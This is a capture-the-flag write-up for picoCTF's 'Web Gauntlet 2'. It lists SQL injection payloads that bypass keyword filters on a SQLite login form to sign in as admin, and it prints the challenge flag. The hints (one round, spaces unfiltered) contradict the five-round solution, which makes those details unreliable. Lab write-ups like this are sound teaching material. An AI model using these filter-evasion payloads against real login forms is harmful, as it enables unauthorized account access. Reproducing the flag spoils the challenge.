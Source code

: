 # Web Gauntlet 2 ❓
Tags: Web Exploitation<br>
Point: 200<br>
AUTHOR: MADSTACKS<br>
Description:<br>
This website looks familiar... <br>
Log in as admin Site: http://mercury.picoctf.net:26215/ <br>
Filter: http://mercury.picoctf.net:26215/filter.php<br>

Hints:
- I tried to make it a little bit less contrived since the mini competition.
- Each filter is separated by a space. Spaces are not filtered.
- There is only 1 round this time, when you beat it the flag will be in filter.php.
- There is a length component now.
- sqlite


## Write-up: 📝
We have to get through all 5 SQLi challenges. One link gives the form , display query after wrong credential submission or nothing if the query statement contains filtered words.
The other links show the filtered words.
## Solution: 💯
### Round 1:

Filter: `or`

Login as admin so the username=admin, and query **sqli** here. Use `--` to comment out

User: `admin' --`

Pass: `123456` (arbitary string)

Our query: `SELECT * FROM users WHERE username='admin' --'  AND password='123'`

### Round 2:

Filter: `or and like = --`

Login as admin. Change comment out operator "--" to "/*"

User: `admin' /*`

Password: `123456` (arbitary string)

Our query: `SELECT * FROM users WHERE username='admin' /*'  AND password='123'`

### Round 3:

Filter: `or and = like > < --`

Beware of this round also filter **spaces** so we use the payload above and replace **spaces** with `/**/`

User: `admin'/**//*`

Password: `123456` (arbitary string)

Our query: `SELECT * FROM users WHERE username='admin'/**//*'  AND password='123'`

### Round 4:

Filter: `or and = like > < -- admin`

They filter the string **"admin"** if we input directly. So we need a **concatenation operator** and here we use `||`

User: `ad'||'min'/**//*`

Pass: `123456` (arbitary string)

Our query: `SELECT * FROM users WHERE username='ad'||'min'/**//*'  AND password='123'`

### Round 5:

Filter: `or and = like > < -- union admin`

With **union** filtered, our payload above is not affected.

User: ad'||'min'/**//*

Pass: `123456` (arbitary string)

Our query: `SELECT * FROM users WHERE username='ad'||'min'/**//*'  AND password='123'`

When you done reaching to 6/5 round. Back to **filter** file and the flag is there !

#### The Flag (for reference): ✔️
```
picoCTF{y0u_m4d3_1t_a5f58d5564fce237fbcc978af033c11b}
```

